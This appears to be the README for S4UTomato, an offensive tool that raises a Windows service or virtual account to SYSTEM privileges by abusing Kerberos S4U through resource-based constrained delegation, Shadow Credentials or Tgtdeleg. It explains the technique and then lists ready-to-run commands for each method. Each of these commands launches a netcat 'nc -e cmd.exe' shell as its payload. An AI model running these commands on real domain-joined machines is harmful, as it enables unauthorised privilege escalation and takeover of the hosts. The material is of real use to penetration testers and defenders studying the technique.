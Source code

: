 # S4UTomato

Escalate Service Account To LocalSystem via Kerberos.

# Traditional Potatoes

Friends familiar with the "Potato" series of privilege escalation should know that it can elevate service account privileges to local system privileges. The early exploitation techniques of "Potato" are almost identical: leveraging certain features of COM interfaces, deceiving the NT AUTHORITY\SYSTEM account to connect and authenticate to an attacker-controlled RPC server. Then, through a series of API calls, an intermediary (NTLM Relay) attack is executed during this authentication process, resulting in the generation of an access token for the NT AUTHORITY\SYSTEM account on the local system. Finally, this token is stolen, and the `CreateProcessWithToken()` or `CreateProcessAsUser()` function is used to pass the token and create a new process to obtain SYSTEM privileges.

# How About Kerberos

In any scenario where a machine is joined to a domain, you can leverage the aforementioned techniques for local privilege escalation as long as you can run code under the context of a Windows service account or a Microsoft virtual account, provided that the Active Directory hasn't been hardened to fully defend against such attacks.

In a Windows domain environment, SYSTEM, NT AUTHORITY\NETWORK SERVICE, and Microsoft virtual accounts are used for authentication by system computer accounts that are joined to the domain. Understanding this is crucial because in modern versions of Windows, most Windows services run by default using Microsoft virtual accounts. Notably, IIS and MSSQL use these virtual accounts, and I believe other applications might also employ them. Therefore, we can abuse the S4U extension to obtain the service ticket for the domain administrator account "Administrator" on the local machine. Then, with the help of James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo))'s  [*SCMUACBypass*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), we can use that ticket to create a system service and gain SYSTEM privileges. This achieves the same effect as traditional methods used in the "Potato" family of privilege escalation techniques.

Before this, we need to obtain a TGT (Ticket Granting Ticket) for the local machine account. This is not easy because of the restrictions imposed by service account permissions, preventing us from obtaining the computer's Long-term Key and thus being unable to construct a KRB_AS_REQ request. To accomplish the aforementioned goal, I leveraged three techniques: [*Resource-based Constrained Delegation*](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html), [*Shadow Credentials*](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), and [*Tgtdeleg*](https://twitter.com/gentilkiwi/status/998219775485661184). I built my project based on the  [Rubeus](https://github.com/GhostPack/Rubeus#tgtdeleg) toolset.

# How to Use and Examples

```cmd
C:\Users\whoami\Desktop>S4UTomato.exe --help

S4UTomato 1.0.0-beta
Copyright (c) 2023

  -d, --Domain              Domain (FQDN) to authenticate to.
  -s, --Server              Host name of domain controller or LDAP server.
  -m, --ComputerName        The new computer account to create.
  -p, --ComputerPassword    The password of the new computer account to be created.
  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer
                            object.
  -c, --Command             Program to run.
  -v, --Verbose             Output verbose debug information.
  --help                    Display this help screen.
  --version                 Display version information.
```

### LEP via Resource-based Constrained Delegation

```cmd
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/images/rbcd.gif)

### LEP via Shadow Credentials + S4U2self

```cmd
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/images/shadowcred.gif)

### LEP via Tgtdeleg + S4U2self

```cmd
# First retrieve the TGT through Tgtdeleg
S4UTomato.exe tgtdeleg
# Then run SCMUACBypass to obtain SYSTEM privilege
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/images/tgtdeleg.gif)
